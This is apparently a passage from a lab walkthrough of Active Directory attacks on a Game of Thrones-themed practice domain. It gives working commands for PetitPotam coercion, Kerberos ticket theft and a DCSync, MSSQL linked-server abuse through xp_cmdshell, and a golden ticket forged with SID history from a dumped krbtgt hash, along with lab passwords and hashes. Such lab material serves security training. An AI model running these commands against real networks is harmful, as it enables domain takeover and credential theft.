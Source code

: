 - And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
`petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local`

- And we run petitpotam on our linux console to force a coerce of meereen to kingslanding.
`petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local`

- And we get the TGT of meereen !

- Now we can copy it to linux (delete space and \n) and Decode the base64 and save it to a kirbi file
```
base64 -d rubeus.b64 > meereen.kirbi

# Convert it to ccache and use it to dcsync essos.local
ticketConverter.py meereen.kirbi meereen.ccache 
export KRB5CCNAME=/workspace/trusts/unconstrained/meereen.ccache
secretsdump -k -no-pass -just-dc-ntlm essos.local/'MEEREEN$'@meereen.essos.local
```

### Mssql Trusted link
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local

enum_links
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```

### Golden ticket with external forest, sid history ftw 
This attack can be done only because SID history is enabled on the sevenkingdoms->essos trust

Find the domain sid with lookupsid.py
- essos SID : S-1-5-21-2203133648-1386395927-1390703624
- sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

```
secretsdump -just-dc-user 'essos/krbtgt' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e58cf01ba6cc645da9f7ab1f28fc3934:::
...
```

Create the golden ticket for a fake user and use it
```
ticketer.py -nthash e58cf01ba6cc645da9f7ab1f28fc3934 \
-domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
-domain essos.local \
-extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
dragon


export KRB5CCNAME=/workspace/trusts/external/dragon.ccache
smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug

```
